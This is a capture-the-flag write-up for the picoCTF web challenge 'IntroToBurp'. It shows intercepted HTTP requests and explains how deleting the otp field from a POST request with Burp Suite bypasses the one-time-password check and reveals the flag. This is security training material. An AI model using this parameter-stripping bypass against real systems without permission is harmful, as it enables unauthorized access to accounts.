


# IntroToBurp - Web

## Description

Try [here]() to find the flag

#### Hints:

- Try using burpsuite to intercept request to capture the flag.
- Try mangling the request, maybe their server-side code doesn't handle
  malformed requests very well.

## Solution

The link we are given (http://titan.picoctf.net:\<port\>/) opens up into a registration portal as shown below...



There's not much to go on, so I filled up random details and clicked `Register`. I was redirected to another page (http://titan.picoctf.net:\<port\>/dashboard) as below...


I entered a random OTP and I was denied access and given the message "Invalid OTP".

Let's go behind-the-scenes and use BurpSuite (as indicated by the challenge title). The first POST request when I input random details into the registration portal looks like the following...

```
POST / HTTP/1.1
Host: titan.picoctf.net:52409
Content-Length: 174
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://titan.picoctf.net:52409
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:52409/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJjc3JmX3Rva2VuIjoiZjEzN2ZmZGRhYmQyZjQ1ZTZiM2JlYTE1YjAyYWFjNTczODJlNTIxYiJ9.ZmcxRQ.-PaKW24lZP-9yjhIxw0wDo7T848
Connection: close

csrf_token=ImYxMzdmZmRkYWJkMmY0NWU2YjNiZWExNWIwMmFhYzU3MzgyZTUyMWIi.ZmcxRQ.-mT53nyEAi_R5bQ_OvLlolJt7qs&full_name=a&username=a&phone_number=1&city=a&password=a&submit=Register
```

And the second POST request when I enter the OTP looks like the following...

```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:52409
Content-Length: 5
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://titan.picoctf.net:52409
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:52409/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJw9jM0KwyAQhN_Fcw9Ra1L6MrKru6Q0UfGHUErfvXsIgTnMfMPMV4VX_6inAnVToVX2Pb8pCWBtF-YYAaPhu6MZLRJoh5MBCG6xD0POaJQdj23zCXY6f3Iv4sw0iyQWaO3INZ5tWXMin8aOVAVpQaNRvfa_PxQlLMI.ZmcyDw.uBlg68tr_nWzHzcZF-k5YbKw7rw
Connection: close

otp=1
```

The first request looks like it requires a `csrf_token` to be submitted so I can't manipulate that. But the second request could be manipulated. I opened up the registration page again and filled up random details until I reached the OTP page. Next I switched on Intercept in the Proxy mode of BurpSuite, then tried to submit a random OTP. I was redirected to the POST request intercepted and I removed the lines `otp=1` and submited the request given below. The result revealed the flag.

```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:50088
Content-Length: 0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://titan.picoctf.net:50088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:50088/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJw9jM0KwyAQhN_Fcw8a3ZX0ZcSflZYmKmoIpfTdu4fQ28w3fPMR8Tnf4i68uIk4enazvqgwSAqM0cmqlEMGXNFKjwRrtAEUykUvQXqjkb18bJsrfqfrp87GyUhABVybH-OsPV1re9RCrhx7oM5IMToG9b___QF88CtY.Zmc0LQ.PvrXMHbJubJGUC3v-IdIHRu9ca8
Connection: close
```


